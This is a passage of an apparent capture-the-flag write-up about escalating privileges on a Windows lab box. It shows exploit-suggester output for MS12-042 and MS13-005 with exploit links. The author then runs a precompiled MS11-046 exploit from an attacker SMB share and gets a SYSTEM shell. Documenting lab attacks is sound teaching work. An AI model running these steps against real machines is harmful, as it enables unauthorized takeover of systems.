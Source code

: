       [*] Appears vulnerable to MS12-042
       [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode.
       [>] Exploit: https://www.exploit-db.com/exploits/20861/
       [>] Notes: None.

      [*] Appears vulnerable to MS13-005
       [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
       [>] Notes: None.

     [*] Finished. Found 5 vulns :)
    ERROR> The given key was not present in the dictionary.
    ERROR> C:\WINDOWS\System32\win32kfull.sys
    ERROR> C:\WINDOWS\System32\gdiplus.dll
    ERROR> C:\WINDOWS\System32\coremessaging.dll



### MS11-046

A lot of these will have Metasploit modules. But if I'm going to do this
without Metasploit, I'll make use of a GitHub out there from abatchy17
called [WindowsExploits](https://github.com/abatchy17/WindowsExploits).
He's got a folder for MS11-046 with a precompiled exe. If I look through
the
[source](https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/40564.c#L801)
at the very bottom I'll see this comment:



     // spawn SYSTEM shell within the current shell (remote shell friendly)



That's exactly what I'm looking for. A sticking point for a lot of these
precompiled exploits is that they launch a new elevated cmd shell, which
is only useful if I have remote desktop or keyboard access.

I'll save the exe in my smb share, and run it, and it doesn't print
anything, but I get a new shell as system:



    c:\Windows\Microsoft.NET\Framework>\\10.10.14.14\share\MS11-046.exe

    c:\Windows\System32>whoami
    whoami
    nt authority\system



From there, I can grab both flags (which for some reason each have an
extra `.txt`):

